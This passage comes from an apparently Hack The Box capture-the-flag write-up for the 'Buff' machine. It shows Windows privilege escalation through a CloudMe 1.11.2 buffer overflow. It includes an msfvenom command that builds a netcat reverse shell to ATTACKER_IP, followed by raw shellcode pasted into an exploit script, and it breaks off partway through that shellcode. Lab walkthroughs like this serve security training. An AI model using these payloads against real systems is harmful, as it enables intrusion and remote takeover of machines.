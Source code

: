 Then we get powershell.

```
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload> 
```

## Get root

### Find exploit

In `shaun`'s `Downloads` folder there's a binary `CloudMe_1112.exe`.

```
PS C:\Users\Shaun\Downloads> ls
ls

    Directory: C:\Users\Shaun\Downloads

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe                                                      
```

A [buffer overflow exploit exists for this](https://www.exploit-db.com/exploits/48389).

### Create a payload for exploit

On attacker machine, generate a payload with `msfvenom`.

```shell
kali@kali:~/Desktop/repos/ctf/hack-the-box/buff$ msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe ATTACKER_IP 4443' -b '\x00\x0a\x0d' -f py -v payload
```

### Update exploit with new payload

Paste output into exploit `/usr/share/exploitdb/exploits/windows/remote/48389.py`, replacing the previous buffer overflow excerpt with the new one. 

The part that looks like this...

```python
# buffer overflow
payload =  b""
payload += b"\xb8\x4b\xfd\x09\x5e\xdb\xd5\xd9\x74\x24\xf4\x5a"
payload += b"\x29\xc9\xb1\x3e\x31\x42\x14\x03\x42\x14\x83\xc2"
payload += b"\x04\xa9\x08\xf5\xb6\xaf\xf3\x06\x47\xcf\x7a\xe3"
payload += b"\x76\xcf\x19\x67\x28\xff\x6a\x25\xc5\x74\x3e\xde"
payload += b"\x5e\xf8\x97\xd1\xd7\xb6\xc1\xdc\xe8\xea\x32\x7e"
payload += b"\x6b\xf0\x66\xa0\x52\x3b\x7b\xa1\x93\x21\x76\xf3"
payload += b"\x4c\x2e\x25\xe4\xf9\x7a\xf6\x8f\xb2\x6b\x7e\x73"
payload += b"\x02\x8a\xaf\x22\x18\xd5\x6f\xc4\xcd\x6e\x26\xde"
payload += b"\x12\x4a\xf0\x55\xe0\x21\x03\xbc\x38\xca\xa8\x81"
payload += b"\xf4\x39\xb0\xc6\x33\xa1\xc7\x3e\x40\x5c\xd0\x84"
payload += b"\x3a\xba\x55\x1f\x9c\x49\xcd\xfb\x1c\x9e\x88\x88"
payload += b"\x13\x6b\xde\xd7\x37\x6a\x33\x6c\x43\xe7\xb2\xa3"
payload += b"\xc5\xb3\x90\x67\x8d\x60\xb8\x3e\x6b\xc7\xc5\x21"
payload += b"\xd4\xb8\x63\x29\xf9\xad\x19\x70\x94\x30\xaf\x0e"
payload += b"\xda\x32\xaf\x10\x4b\x5a\x9e\x9b\x04\x1d\x1f\x4e"
payload += b"\x61\xd1\x55\xd3\xc0\x79\x30\x81\x50\xe4\xc3\x7f"
payload += b"\x96\x10\x40\x8a\x67\xe7\x58\xff\x62\xac\xde\x13"
payload += b"\x1f\xbd\x8a\x13\x8c\xbe\x9e\x57\x08\x1c\x59\x39"
```